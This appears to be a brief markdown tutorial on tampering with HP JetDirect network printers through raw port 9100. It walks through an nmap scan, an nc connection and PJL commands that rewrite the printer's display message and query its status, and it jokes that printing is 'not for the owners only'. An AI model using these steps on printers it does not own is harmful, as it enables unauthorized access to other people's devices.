 Firstly this technology was introduced in 1991 and has the name QuickSilver. Later, it was modified and widely spread in other areas: bt130, psa4250, etc.

JetDirect allows printing something on the printer via network. Not for the owners only ;].

## 9100

Using port 9100 we can send direct `@PJL` commands.

### manual way

**Step 1** - Inspect the target

For this purpose, we can use `nmap`

```
nmap -p 9100 <target>
```

the result can be like this:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-09 11:55 EET
Nmap scan report for pool-<target> (<ip>)
Host is up (0.075s latency).

PORT     STATE SERVICE
9100/TCP open  jetdirect

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

**Step 2** - Connect to target

For connection we can use `nc`:

```
nc -v <target> 9100
Connection to <target> port 9100 [tcp/hp-pdl-datastr] succeeded!
```

**Step 3** - Send command

The PJL language [reference](https://developers.hp.com/system/files/PJL_Technical_Reference_Manual.pdf) can help us with this.

Example:

```
@PJL STMSG DISPLAY="PUTIN HYILO" 
```

Or:

```
@PJL INFO STATUS
@PJL INFO STATUS
CODE=10001
DISPLAY="PUTIN HUYLO"
ONLINE=TRUE
```
